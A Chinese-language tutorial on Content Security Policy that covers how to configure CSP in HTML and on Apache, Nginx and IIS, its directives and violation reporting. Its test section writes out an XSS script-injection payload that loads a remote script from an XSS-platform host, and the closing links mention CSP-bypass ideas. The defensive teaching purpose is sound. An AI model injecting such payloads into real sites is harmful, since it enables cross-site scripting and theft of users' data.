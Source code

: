 # 关于CSP
> 内容安全策略   (CSP) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 (XSS) 和数据注入攻击等。无论是数据盗取、网站内容污染还是散发恶意软件，这些攻击都是主要的手段。(摘自MDN web docs)

个人理解就是一种执行在浏览器端的页面安全策略，通过设置白名单允许页面内容来自指定的源，比如验证js脚本的来源来消除来自其他源的js脚本加载，这样就能防止xss远程加载js脚本。

# 相关配置
两种
## 直接在html页面中添加
示例：
```
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
```
## 配置服务器，使其在响应头添加
- Apache
在VirtualHost的httpd.conf文件或者.htaccess文件中加入以下代码
```
Header set Content-Security-Policy "default-src 'self';"
```
- Nginx
在 server {}对象块中添加如下代码
```
add_header Content-Security-Policy "default-src 'self';";
```
- IIS 
web.config:中添加
```
<system.webServer>

  <httpProtocol>

    <customHeaders>

      <add name="Content-Security-Policy" value="default-src 'self';" />

    </customHeaders>

  </httpProtocol>

</system.webServer>
```
这样response 头里面就会有Content-Security-Policy: 标签
```
Content-Security-Policy: script-src 'self'; object-src 'none';style-src cdn.example.org third-party.org; child-src https:
```

# 关于csp的语法（简单介绍）

## 默认限制
> 什么都不会就直接上一个默认限制就行了,例如`Content-Security-Policy: default-src 'self'`限制资源只能从本地加载，不管是js，还是图片，都只能从本地加载

## 详细的资源加载限制(摘自[知乎:阿里聚安全](https://www.zhihu.com/question/21979782/answer/122682029))
> 可以对每种资源进行详细的加载限制
- `script-src` 外部脚本加载限制
- `style-src` 样式表
- `img-src` 图像
- `media-src` 音频视频的加载
- `font-src` 字体文件
- `object-src`插件（比如 Flash）
- `child-src`框架
- `frame-ancestors`嵌入的外部资源（比如\<frame\>、\<iframe\>、\<embed\>和\<applet\>）
- `connect-src`HTTP 连接（通过 XHR、WebSockets、EventSource等）
- `worker-src` worker脚本
- `manifest-src` manifest 文件
> url相关
- `frame-ancestors` 限制嵌入框架的网页
- `base-uri` 限制 `<base#href>`
- `form-action` 限制 `<form#action>`
> 其他其他安全相关
- `block-all-mixed-content`：HTTPS 网页不得加载 HTTP 资源（浏览器已经默认开启）
- `upgrade-insecure-requests`：自动将网页上所有加载外部资源的 HTTP 链接换成 HTTPS 协议 相关类似的还有[HTTP Strict Transport Security](https://developer.mozilla.org/zh-CN/docs/Security/HTTP_Strict_Transport_Securityv)
- `plugin-types`：限制可以使用的插件格式
- `sandbox`：浏览器行为的限制，比如不能有弹出窗口等。

## 将违例内容进行反馈报告
> 需要在CSP规则中写明report-uri策略，然后参数中有一个地址接收这些报告，报告格式是json
大概写法事这个样子拿apache配置为例
```
Header set Content-Security-Policy "default-src 'self';report-uri http://12.12.12.12:7777"
```
返回的json大概如下：
```
{
    "csp-report":{
        "document-uri":"http://hhhhh.com/",
        "referrer":"",
        "violated-directive":"script-src-elem",
        "effective-directive":"script-src-elem",
        "original-policy":"default-src 'self';report-uri http://12.12.12.12:7777",
        "disposition":"enforce",
        "blocked-uri":"https://xss.pt/XUXds",
        "status-code":200,
        "script-sample":""
    }
}
```

# 测试
- 配置虚拟主机
```
<VirtualHost 12.12.12.12:80>
  DocumentRoot "/var/www/ipv4"
  ServerName    hhhhh.com
</VirtualHost>
Header set Content-Security-Policy "default-src 'self';"
```
重启apache服务，查看响应头是否含有Content-Security-Policy： default-src 'self';
- 到页面中加载远程脚本
<sCRiPt sRC=https://xss.pt/XUXdj></sCrIpT>
- 然后这时浏览器就会报错
 比如chrome：
```
Refused to load the script 'https://xss.pt/XUXdj' because it violates the following Content Security Policy http://hhhhhh.com directive: "default-src 'self'". Note that 'script-src-elem' was not explicitly set, so 'default-src' is used as a fallback.
```

相关文档：
- [MDN_web_docs-内容安全策略( CSP )](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)
- [知乎-Content Security Policy (CSP) 是什么？为什么它能抵御 XSS 攻击？](https://www.zhihu.com/question/21979782)
- [MDN_web_docs-HTTP Strict Transport Security](https://developer.mozilla.org/zh-CN/docs/Security/HTTP_Strict_Transport_Security)
- [阮一峰-Content Security Policy 入门教程](http://www.ruanyifeng.com/blog/2016/09/csp.html)
- [先知社区-如何巧妙绕过csp](https://xz.aliyun.com/t/2438) 感觉这个绕过思路就是通过iframe加载一些没有csp的页面，然后攻击父窗口，然后里面还讲述了添加超大cookie绕过httponly